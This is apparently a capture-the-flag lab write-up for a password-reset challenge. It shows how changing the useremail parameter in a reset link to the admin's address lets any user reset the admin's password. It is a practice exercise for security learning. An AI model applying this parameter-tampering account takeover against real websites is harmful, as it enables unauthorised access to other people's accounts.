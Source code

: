 # Challenge #1 - Password Reset 1- 4

## Credentials:
Username: atk
Password: atk

## Objectives

- All the http://*.pwdreset.site web applications implement different password reset mechanisms.
- Your job is to find a way to exploit these implementations in order to reset the password of any user you want.

## Hints

- Recommended tools
  - Web browser
  - Burp Suite

## Steps

Login the system. The welcome show a list of users as below.

```
Welcome atk

    Username: atk
    Password: atk
    Email: atk@atk.com 

List of users

Username: admin || Email: admin@pwdreset.site
Username: atk || Email: atk@atk.com
Username: darkenedjump || Email: Suspendisse.dui@nequeSedeget.net
Username: slipperyraspy || Email: sagittis@scelerisque.ca
```

Do logout, them click in reset password and them continue.

```
http://1.pwdreset.site/forgot.php
```

A message will appear saying that you have a email message, click on the link. You have one message with a link to reset the password.

```
From: admin@pwdreset.site Message:

Someone requested a password reset for the following account:
Username: atk

If this was a mistake, just ignore this email and nothing will happen.
To reset your password, visit the following address: http://1.pwdreset.site/reset_pwd.php?useremail=atk@atk.com 
```

Copy the link, change the useremail with one from the list on the first page and them sent to the browser.

```
http://1.pwdreset.site/reset_pwd.php?useremail=admin@pwdreset.site
```

Set a new password for this user and them login using this new credentials.